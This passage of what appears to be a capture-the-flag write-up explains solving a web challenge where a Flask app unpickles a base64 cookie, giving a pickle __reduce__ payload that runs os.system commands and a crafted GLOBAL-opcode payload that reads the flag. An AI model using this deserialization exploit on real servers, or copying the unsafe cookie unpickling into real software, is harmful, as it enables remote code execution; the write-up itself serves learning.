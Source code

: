 ```python
@app.route('/')
def jar():
  contents = request.cookies.get('contents')
  if contents: items = pickle.loads(base64.b64decode(contents))
  else: items = []
```

This is a classic challenge, and you can probably find a solution similar to the one below on the internet.

```python
import pickle
import base64
import os

class RCE:
  def __reduce__(self):
    return os.system, ('ls -la',) # or whatever command here

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

This gives us RCE, and we can easily get the flag with a reverse shell or similar. However, this solution is lame, and with our new knowledge of pickles, we can do much better. Notice that the flag is stored as a global variable that we have access to. We can try using `GLOBAL` to grab it.

```
>>> p = GLOBAL + b'__main__\nflag\n' + STOP
>>> pickle.loads(p)
'actf{FAKE_FLAG}'
```

This calls `find_class('__main__', 'flag')` as expected. However, the server expects a list, so we adjust accordingly.

```
>>> p = MARK + GLOBAL + b'__main__\nflag\n' + LIST + STOP
>>> pickle.loads(p)
['actf{FAKE_FLAG}']
```

If we base64 encode this and set it as our cookie, we'll get the flag.

## Flag
```
actf{you_got_yourself_out_of_a_pickle}
```

# Snake (misc, 240 points)
> Snake is such a fun game. Slithering around, eating pickles, slamming into walls... that's the life.
